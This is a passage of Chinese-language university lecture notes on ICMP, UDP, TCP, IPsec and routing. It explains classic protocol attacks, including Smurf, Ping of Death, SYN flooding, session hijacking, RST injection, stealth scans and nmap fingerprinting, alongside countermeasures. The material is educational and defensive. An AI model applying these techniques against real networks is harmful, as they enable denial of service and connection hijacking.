+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                     网关互联网地址                            |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                互联网头部 + 原始数据数据报的64位               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

- 路由器定期交换路由信息以适应网络变化并保持其路由更新。然而，主机不会这样做。
- 一个通用规则：假设路由器知道正确的路由；主机从最小的路由信息开始，并从路由器那里学习新的路由。
- IP主机通常只配置有一个默认路由器（也称为默认网关）的IP地址。IP主机的任何远程流量都会转发到默认的IP路由器。
- 当路由器检测到主机使用非最佳路由时，它会向主机发送ICMP重定向消息，请求主机更改其路由。这样，主机学习到一个新的路由，并将该路由添加到其路由表中。
- 在以下情况下，网关向主机发送重定向消息。一个网关G1从与其连接的网络上的主机接收到一个互联网数据报。网关G1检查其路由表，并获取到达数据报的互联网目标网络X的下一个网关G2的地址。如果G2和数据报的互联网源地址在同一个网络上，则向主机发送重定向消息。
- 如果数据报的互联网源地址和G2位于同一网络上，则向主机发送重定向消息。重定向消息建议主机将其发送到网络X的流量直接发送到网关G2，因为这是一条更短的路径到达目的地。网关将原始数据报的数据转发到其互联网目标。
- 仅限于路由器和直接连接的网络上的主机之间的交互。

#### 使用ICMP消息的3种攻击
### ●映射网络拓扑
- 映射目标网络是大多数智能计划攻击的一个非常战略性的部分。这个初始的侦察步骤试图发现目标网络中的活动主机。然后，攻击者可以只针对活动主机进行更有针对性的扫描或利用。
- 发送单个ICMP回显：这就是ping命令的作用。
- 向网络的广播地址发送ICMP回显请求。
- 向子网的网络地址和广播地址发送ICMP回显请求。
- 向网络上的主机发送ICMP地址掩码请求，以确定子网掩码，以更好地了解如何进行高效映射。

### ●Smurf攻击
- 以（伪造的）受害者IP作为源地址，ping一个IP定向广播地址。
- IP定向广播地址通常是具有所有位为1的主机部分的网络地址。例如，子网192.168.10.0的广播地址是192.168.10.255）。
- 直到1999年，标准要求路由器转发这种数据包。
- 影响：网络上的所有主机都会响应受害者，从而使受害者不堪重负。这是一种拒绝服务攻击。
- ICMP回显只是为了方便之起见。所有ICMP消息都可以被滥用。
- 这种攻击的关键思想：放大和IP欺骗
- 这是一个协议漏洞。为了解决这个问题，我们可以做以下几点：
    *在路由器上禁用IP定向广播。
    *配置操作系统，防止机器对发送到IP广播地址的ICMP数据包做出响应。

### ●ICMP重定向攻击
- 向受害者发送ICMP重定向数据包，要求其将其数据包发送到另一个“路由器”，这可以是一个恶意机器。
- 影响：中间人攻击或拒绝服务攻击。
- 主机要求RFC规定系统必须遵循ICMP重定向，除非它是一个路由器。
- Winfreez(e)：在Windows中。
    *ICMP重定向：你自己是到主机Z的最快链路。
    *受害者将其路由表更改为将Z指向自己。
- *主机将数据包发送到自身，形成无限循环。

##### 死亡之Ping
- 带有分段数据包的ICMP回显请求
- ICMP回显请求数据包的最大合法大小：
    - 65535 - 20 - 8 = 65507
- 分段允许绕过最大大小限制。 对于分段的最后一片，可能出现以下情况：
    - (偏移量 + 大小) > 65535
- 重新组装的数据包将超过65535字节。
- 影响：某些操作系统会崩溃。
- 使用不同IP协议的相同攻击。

### 对TCP连接进行的ICMP攻击（更多内容将在TCP讲座中介绍）。

## UDP协议
### (1) UDP：用户数据报协议
#### 为什么需要UDP（或TCP）
- 在单个主机上可能有许多应用程序
- IP仅标识主机，而不是运行在主机上的应用程序
- 我们需要另一种方法来区分一个应用程序和另一个应用程序，以便当TCP/IP软件接收到一个数据包时，它知道要发送给哪个程序。
- TCP/IP使用协议端口号来区分程序。 应用程序绑定到端口号。
- TCP和UDP都有端口号。它们是不同的。

### UDP
- 传输层协议
- 无连接服务
- 与IP具有相同的尽力而为语义
    * 消息可能会延迟、丢失或重复
    * 消息可能会无序到达
- 应用程序对错误负有全部责任
- 基于UDP的应用程序
    * DNS：实际上，正常主机使用UDP查询DNS服务器
    * 流媒体视频、VoIP

## 封装


#### UDP消息格式
| 0 | 16 | 31 |
|---|---|---|
| SOURCE PORT | DESTINATION PORT |
| LENGTH | UDP CHECKSUM |
| BEGINNING OF DATA... |

#### UDP多路复用、解复用和端口


#### 保留和可用的UDP端口号
- 小号码保留给特定应用程序
    - 称为众所周知的端口
    - 在整个互联网上具有相同的解释
    - 由服务器软件使用
- 大号码未保留
    - 可供任意应用程序使用
    - 由客户端软件使用
- 例子：
    - 回显使用端口7，白天使用端口13，DNS名称服务器使用端口53。

### (2) UDP攻击
#### Fraggle
- 广播UDP数据包发送到“回显”服务。
- 所有计算机都会回复（放大）。
- 源IP地址被伪造，受害者被压垮
- 类似于ICMP Smurf攻击。

### UDP Ping-Pong:
- 某些服务或应用程序无论输入数据包如何都会回复UDP数据包（例如错误消息）。
- 将UDP的源端口和目的端口设置为以下端口之一
    - 白天（端口13）
    - 时间（端口37）
- 这会在源和目的地之间产生乒乓效应。

#### DoS攻击
关键点：对小请求回复大数据包的应用程序，例如游戏

- 战地1942
- Quake 1 (CAN-1999-1066)
- 虚幻竞技场

攻击者可以使用这些应用程序作为放大器来攻击主机，使用伪造的源IP数据包

## TCP协议
### (1) TCP协议（传输控制协议）
#### 流传递的需求
- 乱序数据包传递
- 数据包延迟
- 数据包丢失
- 数据包重复

#### TCP的特性
- 流定向性
  - TCP将数据视为一系列位的流，分为8位的八进制数
  - 目标机器上的流传递服务将与源机器上的发送者传递给它的八进制数序列完全相同地传递给接收者。
- 虚拟电路连接
- 缓冲传输
  - 在传输数据时，每个应用程序使用方便的任意大小的数据块，可以小到一个八进制数。
  - 协议软件可以自由地将流分成独立于应用程序传输的数据块。
  - 为了使传输更高效并减少网络流量，实现通常会收集足够的数据来填充一个相当大的数据报之前进行传输。
  - “推送”机制可以强制传输（和交付）而不进行缓冲。
- 非结构化流
  - TCP不遵守结构化数据流。
  - 应用程序必须理解流内容并在启动连接之前就流格式达成一致。
- 全双工连接：双向传输
- 可靠性
  - 带重传的积极确认。

三个主要协议的分层


#### TCP端口、连接和端点
- 通信的端点是应用程序
- TCP使用端口号来标识应用程序
- 两个端点之间的TCP连接由四个项目标识
  - 发送方的IP地址
  - 发送方的协议端口号
  - 接收方的IP地址
  - 接收方的协议端口号
- 同一台机器上可以共享给定的TCP端口号，例如，以下两个连接共享相同的目标点：
  - (18.26.0.36, 1069)和(128.230.208.110 22)
  - (128.10.2.3, 1184)和(128.230.208.110 22)

#### 保留的TCP端口号
- 端口号范围从0到65536。
- 端口号0到1024被保留用于特权服务，并被指定为众所周知的端口（也就是说，只有root用户有权限使用这些保留的端口号）。
- 例子
  - 22: SSH, 23: telnet, 80: http

#### TCP段格式
```
TCP段格式表格：
SOURCE PORT (0-15 bits)
DESTINATION PORT (16-31 bits)
SEQUENCE NUMBER (32-63 bits)
ACKNOWLEDGEMENT NUMBER (64-95 bits)
HLEN (4 bits), NOT USED (4 bits), CODE BITS (8 bits), WINDOW (16 bits)
CHECKSUM (16 bits), URGENT PTR (16 bits)
OPTIONS (MAY BE OMITTED) (variable), PADDING (variable)
BEGINNING OF PAYLOAD (DATA) ...
```

- HLEN：以32位倍数测量的段头长度（因为OPTIONS字段的长度会变化）。
- CHECKSUM：校验和（伪首部 + TCP头 + TCP数据）

图：TCP伪首部
```
TCP伪首部表格：
SOURCE IP ADDRESS (32 bits)
DESTINATION IP ADDRESS (32 bits)
ZERO (8 bits), PROTOCOL (8 bits), TCP LENGTH (16 bits)
```

#### CODE BITS：指定段的目的和内容
图：TCP头中CODE字段的位
| Bit (left to right) | Meaning if bit set to 1 |
| :--- | :--- |
| URG | Urgent pointer field is valid |
| ACK | Acknowledgement field is valid |
| PSH | This segment requests a push |
| RST | Reset the connection |
| SYN | Synchronize sequence numbers |
| FIN | Sender has reached end of its byte stream |

## 滑动窗口机制：
- 用于流量控制
- 在字节级别操作，而不是在段或数据包级别操作。
- TCP滑动窗口的示例如下图所示：

图：TCP滑动窗口示意图

- 在上面的例子中（发送方的窗口）
  - 2个八位字节已经发送并确认
  - 3到6个八位字节已经发送但未确认
  - 7到9个八位字节尚未发送，但将立即发送
  - 窗口移动之前无法发送10个或更多的八位字节

- 接收方的窗口
  - 接收方也维护一个窗口。 然而，该窗口的大小由接收方定义。 该大小可能与发送方的大小不同。
  - 接收方的窗口指示接收方愿意接受多少个带外八位字节。
  - 如果一个数据包超出接收方的窗口，该数据包将被丢弃。

- TCP允许窗口大小随时间变化。
  - 每个确认报文指定已接收的八位字节数量，并包含一个窗口广告（WINDOW字段），指定接收方准备接受多少个额外的八位字节数据。 我们将窗口广告视为指定接收方当前缓冲区大小。
  - 作为对窗口广告增加的回应，发送方增加其滑动窗口的大小，并继续发送尚未被确认的八位字节。
  - 作为对窗口广告减少的回应，发送方减小其窗口的大小，并停止发送超出边界的八位字节。
  - 窗口大小可以为零（接收方当前无法接受额外数据）。

#### 带外数据

- 尽管TCP是一种面向流的协议，但有时候在连接的一端的程序需要发送数据超出带内，而不必等待连接的另一端的程序消耗已经在流中的字节。
- 例子：Control-C中断或中止信号。
- URG代码位用于指定此类TCP数据。
- URG指针：指定紧急数据在段中的结束位置。

#### 确认号

- 指定接收方期望接收的下一个字节的序列号。
- 在任何时候，接收方将从流的开头连续重建零个或多个字节，但可能还有来自乱序到达的数据报的其他片段。接收方始终确认已正确接收的流的最长连续前缀（不包括乱序的部分）。

#### 超时和重传

- 每次TCP发送一个段时，它会启动一个计时器并等待确认。
- 如果计时器超时，TCP会认为该段丢失或损坏，并重新传输它。
- 自适应重传算法：TCP监视每个连接的性能，并推断出合理的超时值。

#### 拥塞控制

- TCP使用另一个窗口，称为拥塞窗口。实际窗口如下：
  允许的窗口 = 最小值(接收方广告窗口, 拥塞窗口)
- 当发生拥塞时，路由器开始排队数据报。当路由器的队列达到容量时，路由器开始丢弃数据报。这导致TCP重传。
- 重传加重了拥塞而不是减轻了拥塞。
- 为了避免拥塞，TCP标准现在建议使用两种技术：
  - 乘法减少/拥塞避免：在丢失一个分段时，将拥塞窗口减半（至少减到一个分段的最小值）。对于仍在允许窗口内的分段，以指数方式退避重传定时器。
  - 慢启动（加法）恢复：在新连接上启动流量或在拥塞期后增加流量时，将拥塞窗口设置为单个分段的大小，并在每次收到确认时增加拥塞窗口一个分段。

#### 强制数据传递

- 考虑使用TCP连接将字符从交互式终端传递到远程机器。用户期望对每个按键都能立即响应。如果发送TCP缓冲数据，响应可能会延迟，可能会延迟数百个按键。
- TCP提供了一个推送操作，应用程序可以使用该操作来强制传送流中当前的字节，而不必等待缓冲区填满。
- 此外，设置了PSH位的段将发送到接收方，因此数据将被传递到接收端的应用程序，而不必等待缓冲区填满。

#### 建立TCP连接：三次握手

- 三次握手实现了两个重要的功能：
  - 它保证双方都准备好传输数据。
  - 它允许双方就初始序列号达成一致。

##### ❖ 初始序列号

- 每台机器必须随机选择一个初始序列号。
- 非随机的序列号会带来安全问题（稍后讨论）。

##### ❖ 关闭TCP连接

- 当应用程序告诉TCP没有更多数据要发送时，TCP将通过发送设置了FIN位的段来关闭连接的一个方向。
- 一旦连接在某个方向上关闭，TCP将拒绝接受更多该方向上的数据。与此同时，数据可以继续在相反的方向上流动，直到发送方关闭连接。
- 当两个方向都关闭时，TCP在每个端点上删除连接的记录。

##### ❖ TCP连接重置

- 对于正常关闭连接，请使用FIN。

### (2) TCP攻击

##### ❖ SYN洪泛

- 攻击者发送许多SYN数据包，创建多个连接，而不发送ACK完成连接。
- 受害者必须在一定时间内将半开放的连接保存在内存中（例如75秒）。
- 如果有很多这些恶意数据包，受害者很快就会耗尽内存。
- 拒绝服务（DoS）攻击。
- 这些SYN数据包通常使用伪造的IP地址。

##### ❖ TCP会话劫持（Mitnick攻击）

- 讨论：机器A和B。如果用户从B登录到A，A不会要求输入密码（例如.rhosts）。你是一个攻击者。你能从自己的机器登录到A吗？
    - 提示1：序列号。
    - 提示2：B的角色。
- 猜测序列号会话劫持。
- SYN洪泛B。
- 防御方法：
    - 加密是唯一的完全防御方法。
    - 校验和携带一个密钥散列。

##### ❖ TCP RST攻击

- 攻击者向现有的TCP连接中注入RST段，导致连接关闭。
- TCP重置攻击之所以可能是因为TCP端点必须接受窗口大小范围内的乱序数据包，并且重置标志应立即处理。
- 伪造RST数据包以中断远程连接的困难在于什么？
    - 连接的序列号。
    - 连接的源端口（目标端口通常对于某些应用程序是众所周知的，例如SSH使用22）。

##### ❖ TCP端口扫描

- TCP SYN扫描。
- TCP connect()扫描。
- FIN、Xmas Tree或Null扫描：关闭的端口必须回复一个RST，而打开的端口必须忽略这些数据包（RFC）。

###### ## FIN扫描

FIN扫描的“隐身”帧不同寻常，因为它们在发送到设备之前不经过正常的TCP握手。如果TCP会话不活动，那么该会话肯定无法正式关闭！

###### ## Xmas Tree扫描

Xmas Tree扫描向远程设备发送一个带有URG、PUSH和FIN标志的TCP帧。这被称为Xmas Tree扫描，因为在标志字节中交替打开和关闭位（00101001），就像圣诞树上的灯一样。

###### ## 空扫描

空扫描关闭所有标志位，创建一个在现实世界中不应该出现的缺乏TCP标志位的情况。

###### ## ❖ 指纹识别主机

- 是什么使其成为可能？
    - 不同的操作系统为某些字段选择唯一的值，例如TTL、TOS、TCP窗口大小、TCP选项。
    - 不同的操作系统可能选择不同的响应方式（不完全遵循RFC）。
- 工具：nmap -O -v host：识别操作系统版本并告诉您预测初始序列号的难度。
- FIN探测：在这里，我们向一个开放的端口发送一个FIN数据包（或任何没有ACK或SYN标志的数据包），然后等待响应。正确的RFC 793行为是不做出响应，但许多破损的实现，如MS Windows、BSDI、CISCO、HP/UX、MVS和IRIX会发送一个复位信号回来。大多数当前的工具都利用了这种技术。
- 虚假的标志探测 - Queso是第一个使用这个巧妙测试的扫描器。这个想法是在SYN数据包的TCP头中设置一个未定义的TCP“标志”（从左边数起的第7或8位）。2.0.35之前的Linux系统会在其响应中保持该标志设置。然而，一些操作系统在收到SYN+BOGUS数据包时似乎会重置连接。这种行为可能有助于识别它们。更新：第8位（和第9位）现在用作TCP拥塞控制的“ECN字段”。
- TCP ISN抽样 - 这里的想法是在响应连接请求时，找到TCP实现选择的初始序列号的模式。这些可以分为许多组，例如传统的64K（许多旧的UNIX系统），随机增量（较新版本的Solaris、IRIX、FreeBSD、Digital UNIX、Cray等等），真正的“随机”（Linux 2.0.*、OpenVMS、较新的AIX等等）。Windows系统（以及其他一些系统）使用“时间相关”模型，其中ISN每个时间段增加一个小的固定量。
- ICMP消息引用 - RFC规定ICMP错误消息引用导致各种错误的一些小量的IP数据包。对于端口不可达消息，几乎所有的实现只发送所需的IP头+8个字节。然而，Solaris发送的内容更多，Linux发送的内容甚至更多。这样做的好处是，即使Linux和Solaris主机没有任何端口监听，nmap也能识别它们。
- IPID采样。
- SYN洪水抵抗。
- 重叠分片处理。
- 不分片位。
- TCP初始窗口。
- ICMP错误消息压制。

###### ## ❖ 初始序列号（ISN）的安全性

- 如果使用16K窗口大小，平均只需要2^32/2^14=2^18=262,144次尝试就能命中窗口。
- 使用T1线每秒发送4,370个数据包，攻击者只需60秒就能耗尽所有可能的窗口。

³⁄₄ 各种操作系统的初始窗口大小（来自Watson [2]）。成功猜测所需的数据包基于以下方程式：（2^32 / 初始窗口大小）

| 操作系统 | 初始窗口大小 | 所需数据包数 |
| :--- | :---: | :---: |
| Windows 2000 5.00.2195 SP4 | 64512 | 66,576 |
| Windows XP Home Edition SP1 | 64240 | 66,858 |
| HP-UX 11 | 32768 | 131,071 |
| Nokia IPSO 3.6-FCS6 | 16384 | 262,143 |
| Cisco 12.2(8) | 16384 | 262,143 |
| Cisco 12.1(5) | 16384 | 262,143 |
| Cisco 12.0(7) | 16384 | 262,143 |
| Cisco 12.0(8) | 16384 | 262,143 |
| Windows 2000 5.00.2195 SP1 | 16384 | 262,143 |
| Windows 2000 5.00.2195 SP3 | 16384 | 262,143 |
| Linux 2.4.18 | 5840 | 735,439 |
| Efficient Networks 5861 (DSL) v5.3.20 | 4096 | 1,048,575 |

##### ❖ 调整默认的TCP窗口大小

- Windows 2000: 通过调整注册表设置可以调整窗口大小。感兴趣的注册表键可以在以下位置的注册表中找到:
  HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters

³⁄₄ Solaris: 可以使用ndd命令来调整Solaris中的默认TCP窗口大小。

```
# ndd -set /dev/tcp tcp_xmit_hiwat [0-65535]
# ndd -set /dev/tcp tcp_recv_hiwat [0-65535]
```

- Linux (2.4.x内核) : 以下两个变量可以添加到 `/etc/sysctl.conf` 文件中。名称“rmem”和“wmem”分别对应接收和传输。设置这些值后，执行“sysctl -p”命令使其生效。

```
net.core.rmem_default = [0-65535]
net.core.wmem_default = [0-65535]
```

## ◆ 猜测源端口

> 当建立TCP连接时，源端口和IP地址的组合以及目标端口和IP地址会产生一个唯一的指纹，可以用来区分所有活动的TCP连接。

> 大多数TCP攻击假设攻击者已经知道目标端口和IP地址以及源端口和IP地址。目标端口和IP地址很容易获取，因为它们通常是公开的。源IP地址也很容易获取，因为这只是被欺骗的客户端。唯一经常难以找到的部分是源端口。

> 例如，如果操作系统从一个范围为1025到49152的池中随机分配源端口（如OpenBSD），这将增加执行复位攻击的难度，攻击者将不得不尝试使用每个可能的端口号进行序列攻击，次数为48127次。在我们的例子中，使用16k窗口，我们确定在已知终点的情况下，需要262144个数据包才能确保成功的复位攻击。然而，如果使用我们描述的随机端口，现在需要262144乘以48127，即12616204288个数据包。这样规模的攻击几乎肯定会在进行暴力复位之前被检测和处理。

> 不幸的是，大多数操作系统都按顺序分配源端口，包括Windows和Linux。一个值得注意的例外是OpenBSD，它从1996年开始随机分配源端口。

> 下表表示来自不同操作系统的源端口选择观察结果（来自Watson [2]）：

| 操作系统 | 观察到的初始源端口 | 观察到的下一个源端口选择方法 |
| :--- | :--- | :--- |
| Cisco 12.2(8) | **11000** | 递增1 |
| Cisco 12.1(5) | **48642** | 递增512 |
| Cisco 12.0(7) | **23106** | 递增512 |
| Cisco 12.0(8) | **11778** | 递增512 |
| Windows 2000 5.00.2195 SP4 | **1038 / 1060** | 递增1 |
| Windows 2000 5.00.2195 SP3 | **1060** | 递增1 |
| Windows XP Home Edition SP1 | **1050** | 递增1 |
| Linux 2.4.18 | **32770** | 递增1 |
| Nokia IPSO 3.6-FCS6 | **1038** | 递增1 |

##### ❖ 针对TCP的ICMP攻击

- 更多详细信息可在 http://www.gont.com.ar/drafts/icmp-attacks-against-tcp.html 找到。
- 因此，对于由主机生成的ICMP消息，我们只能期望获得原始数据包的整个IP头部，以及其有效负载的前64位。对于TCP来说，这意味着只包括以下字段：源端口号、目标端口号和32位TCP序列号。这明显对可能进行的安全检查施加了限制，因为可用的信息不多。

###### ❖ ICMP盲目连接重置攻击

- 主机要求RFC [4]指出，当接收到指示硬错误的ICMP错误消息时，主机应该中止相应的连接。
- 一个单独的ICMP数据包可以使得所有对应的对等方之间的TCP连接中断。
- 对策：
    - 以下类型的ICMP消息是不合理的，应该被忽略：
        * ICMP类型3（目的地不可达），代码2（协议不可达）
        * ICMP类型3（目的地不可达），代码3（端口不可达）
        * ICMP类型3（目的地不可达），代码4（需要分片且DF位设置）
    - 延迟连接重置：TCP不会立即中止连接，而是只有在接收到指定次数的ICMP错误消息并且相应的数据已经重传了指定次数以上后，才会中止连接。

###### ❖ 盲目降低吞吐量的攻击

- 主机要求RFC规定主机必须通过减缓连接上的传输速度来响应ICMP源阻塞消息。因此，攻击者可以向TCP端点发送ICMP源阻塞（类型4，代码0）消息，以使其减少向另一方发送数据的速率。虽然这不会重置连接，但肯定会降低正在进行的数据传输的性能。
- 然而，正如在IP版本4路由器RFC 1812中讨论的那样，研究似乎表明ICMP源阻塞对于拥塞是一种无效（且不公平）的解决方法。因此，我们建议主机完全忽略ICMP源阻塞消息。

### (3) 参考文献

本讲义中使用的图表和表格来自以下来源。

- [1] Comer的TCP/IP幻灯片。
- [2] 窗口滑动：TCP重置攻击，作者Paul A. Watson (http://www.osvdb.org/reference/SlippingInTheWindow_v1.0.doc)。
- [3] 网络制图的秘密：nmap 3.81的综合指南 (http://www.networkuptime.com/nmap/index.shtml)。
- [4] 通过TCP/IP堆栈指纹识别的远程操作系统检测，作者Fyodor, 2002 (http://www.insecure.org/nmap/nmap-fingerprinting-article.html)。
- [5] TCP/IP指南 (http://www.tcpipguide.com/free/t_toc.htm)。
- [6] Gont于2004年关于ICMP对TCP的攻击 (http://www.gont.com.ar/drafts/icmp-attacks-against-tcp.html)。

# # IPSec

> > 致谢：本讲义中的所有图表均来自Steve Friedl的Unixwiz.net Tech Tips: IPsec图解指南。感谢Steve Friedl允许我们使用他的图表。

- ❖ 动机：如何保护两台计算机之间的通信？
    - 方法1：在编写程序时，我们实现数据加密。我们必须为每个程序都这样做。
    - 方法2：我们在第4层（TCP）之上构建加密/身份验证逻辑。SSL（安全套接层）采用了这种方法。
    - 方法3：我们在第3层（IP）之上构建加密/身份验证逻辑。这是IPSec的方法。IPsec是一套用于保护网络连接的协议。
- ❖ 哲学：
    - 许多IP堆栈是这样实现的，即第4层（例如TCP）及以下在操作系统中实现，而以上的任何内容在用户空间中实现。
    - SSL的理念是：如果不必更改操作系统，部署某个东西会更容易。它要求应用程序与SSL接口而不是TCP。
    - IPSec的理念是：在操作系统内部实现安全性会自动保护所有应用程序，而无需修改应用程序。
- ❖ 两个IPSec头部：AH vs. ESP
    - AH：认证头部。协议类型=51（这是IP头部中的一个字段之一）
    - ESP：封装安全有效载荷（协议类型=50）
- ❖ 将IPsec保护应用于数据包的两种模式
    - 传输模式：端到端通信
    - 隧道模式：防火墙到防火墙，或者终端节点到防火墙，在端点之间的路径的一部分上仅保护数据。
    - 隧道模式可以替代传输模式使用。

#### ❖ AH：身份验证头

+ AH用于对IP流量进行身份验证，但不进行加密。
+ 身份验证是通过对IP数据包的几乎所有字段（不包括在传输中可能被修改的字段，如TTL或头部校验和）计算基于密码哈希的消息身份验证码来执行的。
+ 下一个头部：标识传输数据的协议类型（请注意，原始IP头部中不应该包含此类型信息，但由于IPSec，原始IP头部中的协议类型字段被更改为50（用于ESP）或51（用于AH））。
+ AH长度：AH数据包的大小。
+ 保留：此字段保留供将来使用，必须为零。
+ 安全参数索引：标识安全参数。
+ 序列号：用于防止重放攻击。此字段包含在身份验证数据中，因此可以检测到修改。
+ 认证数据：
    - IP数据部分的完整性，加上不可变的IP头部部分。
    - 可变的IP头部部分：tos，标志，片偏移，ttl，头部校验和。
    - 完整性计算期间，可变字段设置为零。
    - 完整性计算还包括AH头部部分，计算期间认证数据字段填充为零。

#### IPSec in AH Transport Mode

#### IPSec in AH Tunnel Mode

New IP type

Protected by AH Auth Data

#### ESP：封装安全载荷

- 提供加密和/或完整性保护
- 超出IP头部的完整性。
- 超出IP头部的加密：使防火墙变得困难。
- ESP包围着它所保护的有效载荷。
- 可以使用ESP而不进行任何实际加密（使用NULL算法）。
- 认证是可选的。
- 然而，与AH不同，此认证仅适用于ESP头部和加密有效载荷：不涵盖完整的IP数据包。

#### IPSec in ESP Transport Mode

#### IPSec in ESP Tunnel Mode

- 密钥管理
  - 手动配置：一方生成一组密钥，并将其传递给所有合作伙伴。所有参与方将这些密钥安装在适当的安全关联中。
  - IKE（Internet Key Exchange）：存在的目的是允许两个端点正确设置它们的安全关联，包括要使用的密钥。IKE使用ISAKMP（Internet Security Association Key Management Protocol）作为框架，以支持与两端兼容的安全关联的建立。

- 使用IPSec构建虚拟专用网络（VPN）
  - VPN的目标是在不可信的中间网络上连接两个受信任的网络，就像在两者之间拉一根非常长的以太网电缆一样。常用于连接分公司与公司总部，允许所有用户共享敏感资源而不担心被拦截。

- ESP（带认证）+隧道模式
- 对终端用户透明。

#### Virtual Private Network

#### IPsec对NAT的影响

- NAT（网络地址转换）解决了IP地址空间问题。
- IPsec隧道模式：NAT想要更新加密（或认证）数据中的IP地址，但它没有密钥。
- IP地址：NAT需要更新IP地址（对于隧道模式，这个IP地址是隧道内部的地址）
  - 对于AH：NAT不知道如何重新计算认证数据
  - 对于ESP：NAT甚至不知道IP地址，也无法进行加密。
- TCP/UDP校验和：IP地址包含在TCP或UDP校验和的计算中。NAT会更改IP地址，但无法修改由IPsec加密/认证的校验和。
- TCP/UDP端口：NAT有时会更改端口号，但端口号由IPsec加密/认证。
- IPv6的支持者讨厌NAT，现在喜欢IPsec，因为IPsec会导致NAT失败。

#### IPsec对防火墙的影响

- IPsec加密了防火墙用于决策的信息，例如TCP头部中的端口字段。

#### IP、IPSec和IPv6之间的一些政治问题

- 1992年，IAB（互联网架构委员会）建议用CLNP数据包格式替换IP，这是一种类似于IP但具有更大地址的格式。
- 如果采用CLNP，互联网肯定会比现在更好。
- 一些非常有声音的IETF成员想要发明自己的报头格式。新的格式被称为IPv6。他们已经设计了10年了。
- IPv6规范规定IPsec是IPv6的强制功能。
- IPv6的支持者希望IPsec能成为迁移到IPv6的推动因素。
- 然而，IPsec设计者为两个IP版本都设计了IPsec。

## 路由协议

### (1) 介绍

- 静态路由与动态路由的比较
    - 静态路由
        - 在启动时固定路由
        - 只适用于最简单的情况
    - 动态路由
        - 在启动时初始化路由表
        - 由传播路由信息的协议插入/更新的值
        - 在大型互联网中是必需的

- 带有部分信息的路由
    - 给定路由器的路由表只包含关于可能目的地的部分信息
    - 对于未知目的地，将其转发到默认路由器。
    - 潜在问题：某些目的地可能无法到达。

原始互联网及核心路由器允许具有默认路由的问题。

- 具有单个骨干的核心路由架构。
    - 假设存在一组集中的路由器，它们知道互联网中的所有可能目的地。
    - 非核心路由器将核心路由器作为默认路由器使用。
    - 最适用于具有单一、集中管理的骨干网的互联网。
    - 不适用于多个骨干网。
    - 缺点
        - 所有流量的中央瓶颈
        - 并非每个站点都能连接到骨干网的核心路由器：它们如何获取路由信息？
        - 没有快捷路由可用：非核心路由器始终将其流量转发到默认路由器，即使另一个核心路由器提供了更好的路由。这是因为非核心路由器在没有完全了解所有可能目的地的情况下无法确定哪个路由更好。
        - 不可扩展，因为核心路由器必须相互交互。

- 多个骨干网
  - 开始时，NSFNET通过匹兹堡的单个路由器连接到ARPANET骨干网，路由很容易：NSFNET内部的路由器将所有非NSFNET流量发送到ARPANET通过匹兹堡的路由器。
  - 后来添加了多个连接，路由变得复杂
    - 例如：从主机3到主机2，有很多可能的路由，选择哪一个呢？

- 部分核心不是解决方案！
  - 可以有一个跨越多个骨干网络的单一核心系统。
  - 然而，将核心系统分割成每个部分保留部分信息而不丢失功能是不可能的。下图说明了这个问题。

## 我们需要什么：

- 拥有一组核心路由器知道所有位置的路由
- 设计一种机制，允许其他路由器与核心联系以自动学习路由（传播必要的路由信息）
- 持续更新路由信息

## 理念：

- 自治系统的概念。

### (2) EGP和BGP

❖ 自治系统（AS）
    ➤ 一组网络在一个管理权限下
    ➤ 可以自由选择内部路由更新机制
    ➤ 连接到一个或多个其他自治系统
    ➤ AS号码
        • AS由互联网名称与数字分配公司（ICANN）分配一个AS号码（ASN）。

❖ 不同类型的AS：
    ➤ Stub AS：只有与另一个AS的单一连接的AS。自然地，一个Stub AS只承载本地流量。
    ➤ 多宿主AS：一个连接到多个其他AS的AS，但拒绝传输流量。
    ➤ 中转AS：一个连接到多个其他AS的AS，并且根据某些策略限制设计为同时传输中转和本地流量。

❖ EGP（外部网关协议）
    ➤ 最初是用于在两个自治系统之间通信路由的单一协议
    ➤ 现在指的是任何外部路由协议

❖ BGP（边界网关协议）
    ➤ Internet中使用的EGP事实上的标准是BGP版本4。
    ➤ BGP于1989年首次成为Internet标准，并最初在RFC1105中定义。
    ➤ 当前版本，BGP4，于1995年采用，并在RFC 1771及其相关文档RFC1772中定义。

#### ❖ BGP设置

- BGP发言人：运行BGP协议的路由器被称为BGP发言人。 每个自治系统都指定一个边界路由器代表其发言。 一些大型自治系统有多个发言人。

- BGP对等连接:
